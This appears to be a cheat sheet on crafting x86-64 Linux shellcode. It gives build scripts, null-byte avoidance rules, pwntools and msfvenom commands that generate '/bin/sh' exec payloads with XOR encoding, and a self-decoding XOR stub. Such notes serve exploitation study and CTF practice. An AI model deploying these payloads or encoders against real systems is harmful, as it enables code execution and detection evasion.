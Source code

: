 # Shellcoding
- [shellstorm](http://shell-storm.org/shellcode/index.html)
- [pwntools asm docs](https://docs.pwntools.com/en/stable/asm.html)
- [pwntools cli docs](https://docs.pwntools.com/en/stable/commandline.html)

## Basic toolchain

### Code
> build-shellcode.sh
```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo "Usage: $0 filename"
  exit 1
fi

run_flag=false
if [ "$2" == "--run" ]; then
  run_flag=true
fi

filename=$(basename -- "$1")
filename_noext="${filename%.*}"

nasm -f elf64 "$1" -o "${filename_noext}.o"

ld "${filename_noext}.o" -o "${filename_noext}.linked"

python parse-shellcode.py "${filename_noext}.linked"

if [ "$run_flag" == true ]; then
  ./"${filename_noext}.linked"
fi
```

> parse-shellcode.py
```python
#!/usr/bin/python3

import sys
from pwn import *

context(os="linux", arch="amd64", log_level="error")

file = ELF(sys.argv[1])
shellcode = file.section(".text")

print(shellcode.hex())
print(''.join([r'\x{:02x}'.format(c) for c in shellcode]))

print("%d bytes - Found NULL bytes" % len(shellcode)) if [i for i in shellcode if i == 0] else print("%d bytes - No NULL bytes" % len(shellcode))
```
### Usage
```bash
./build-shellcode.sh some_asm_shellcode.asm --run
```

## Shellcode ASM template
> shellcode_asm_template.asm
```asm
section .text
    global _start

_start:
    xor rax, rax
    mov rax, 0x6574616161616c70
    push rax
    mov rax, 0x6d657420656d6f53 
    push rax

    xor rax, rax
    mov al, 0x01
    mov dil, 0x01
    mov rsi, rsp
    mov dl, 16
    syscall

    xor al, al
    mov al, 0x3c
    xor dil, dil
    syscall
```

## Compliance 
The shellcode must fill the following requirements:
- Does not contain variables
  - The entire shellcode must be under the `.text` section. 
  - Move strings to the stack, max size per "push" is 8 bytes, in reverse order.
```asm
mov rbx, 'hi'
push rbx
mov rbx, 'bonjour '
push rbx
mov rsi, rsp
```
- Does not refer to direct memory addresses
  - Replace with calls to labels or rip-relative addresses (for calls and loops)
  - Push to the Stack and use rsp as the address (for mov and other assembly instructions)
- Does not contain any null bytes (00)
  - Use registers that match the data size (like `mov al, 1` instead of `mov rax, 1`)
```asm
    mov bx, 'hi'
    push bx
    mov rbx, 'bonjour '
    push rbx
    mov rsi, rsp
    mov al, 1
    mov dil, 1
    mov dl, 10
    syscall
```

## With pwntools
```bash
pwn asm 'pop rax; push rax;' -c 'amd64'
#
# 5850
#

pwn disasm '5850' -c 'amd64'
#
#   0:    58                       pop    rax
#   1:    50                       push   rax
#

pwn disasm '6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05' -c amd64
```

```python
python
>>> from pwn import *
>>> context.update(arch='amd64', os='linux')
>>> asm('mov rax,1')
>>> asm('mov rax,1').hex()
>>> printb = lambda x: print(' '.join(f'{byte:02x}' for byte in x))
>>> lprintb = lambda filename: print(' '.join(f'{byte:02x}' for byte in ELF(filename).section('.text')))
>>> printb(ELF('someExe').section('.text'))

>>> run_shellcode(unhex('4831db66bb7921...')).interactive()
```

## Shellcrafting
- [pwntools shellcraft amd64 docs](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)
```bash
pwn shellcraft -l 'amd64.linux'
pwn shellcraft amd64.linux.sh
```

```python
from pwn import *
context(os="linux", arch="amd64", log_level="error")
dir(shellcraft)

syscall = shellcraft.execve(path='/bin/sh', argv=['/bin/sh'])
asm(syscall).hex()
```

### With msfvenom
```bash
msfvenom -l payloads | grep 'linux/x64'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('...'))" > shell.bin
msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```

## Self modifying shellcode on the stack (XOR)
Requires executable and writeable stack
```
(gdb) info proc map
          Start Addr           End Addr       Size     Offset Perms  objfile
     0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rwxp   [stack]
```
```asm
section .text
global _start

_start:
    sub rsp, shellcode_len
    jmp short call_encoded_shellcode

shellcode:
    pop rsi
    xor rcx, rcx
    mov rdi, rsp 
    mov cl, shellcode_len
    rep movsb 
    mov cl, shellcode_len
    mov bl, 0xaa 
    mov rsi, rsp 

decode_loop:
    xor byte [rsi], bl
    inc rsi
    loop decode_loop
    jmp rsp

call_encoded_shellcode:
    call shellcode 
    encoded_shellcode:
        db 0xe2,0x9b,0x6a    ; Add a already XORed shellcode here

shellcode_len equ $ - encoded_shellcode
```
